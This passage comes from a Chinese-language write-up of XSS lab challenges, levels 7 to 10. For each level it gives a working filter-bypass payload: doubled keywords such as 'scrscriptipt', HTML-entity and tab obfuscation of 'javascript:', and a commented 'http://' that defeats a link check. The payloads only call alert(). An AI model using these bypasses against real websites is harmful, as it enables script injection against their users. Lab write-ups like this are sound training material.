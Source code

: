 #### 考点：闭合，双写绕过

#### 思考：

禁用大小写，script，on，src ，data ，href 都直接转换成空，但是删除一次

**payload：**

```
"><scrscriptipt>alert(/2333/)</scrscriptipt>

"><a hrhrefef=javascriscriptpt:alert(/2333/)>xxxxx</a>
```



### level-8

#### 考点：考虑URL编码、截断

#### 思考：

关键字被替换，**" 还被编码，但是尖括号<> ，单引号 ’ ,% ，# ，& 符号没有被过滤，输出点在a标签内，href属性中**

**payload：**

```
javasc&#x72;ipt:alert(/2333/)	//使用&#x72来代替r 

javascr&#09;ipt:alert(/2333/)	//使用&#09进行截断
```



### level-9

#### 考点：校验链接内容

#### 思考：

要求输入链接，发现会校验内容中是否有**http://**，可以利用注释将**http://**内容去掉

**payload：**

```
javascrip&#x74;:alert(/2333/)//http://xxx.com	//使用&#x74来代替t

javascr&#09;ipt:alert(/2333/)//http://xxx.com	//使用&#09进行截断
```



### level-10

#### 考点：找到隐藏参数

#### 思考：

查看页面源代码，发现有三个参数被隐藏了，（type=“hidden”）
